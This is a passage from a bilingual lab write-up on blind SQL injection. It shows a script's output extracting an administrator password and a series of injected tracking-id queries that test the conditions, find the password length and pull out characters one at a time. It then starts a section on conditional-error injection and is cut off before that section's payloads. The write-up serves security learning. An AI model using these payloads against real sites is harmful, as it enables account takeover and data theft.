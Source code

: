 ```ruby
❯ python3 sqli.py
[▆] SQLI: TvXMzKlqgSfVoLVu'and (select substring(password,20,1) from users where username='administrator')='6'-- -
[o] Password: p8gaw5ig5xecg3xac2m6
```


- Injection

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'order by 1-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'and (select 'test')='test'-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'and (select 'test' from users where username='administrator')='test'-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'and (select substring(username,1,1) from users where username='administrator')='a'-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'and (select 'test' from users where username='administrator' where length(password)=20)='test'-- -'
```

```sql
SELECT * FROM tracking WHERE id = 'TvXMzKlqgSfVoLVu'and (select substring(password,1,1) from users where username='administrator')='p'-- -'
```

## Inyección SQL ciega con errores condicionales || Blind SQL injection with conditional errors

- Query SQL

```sql
SELECT * FROM tracking WHERE id = '$INPUT$'
```

- Explotation
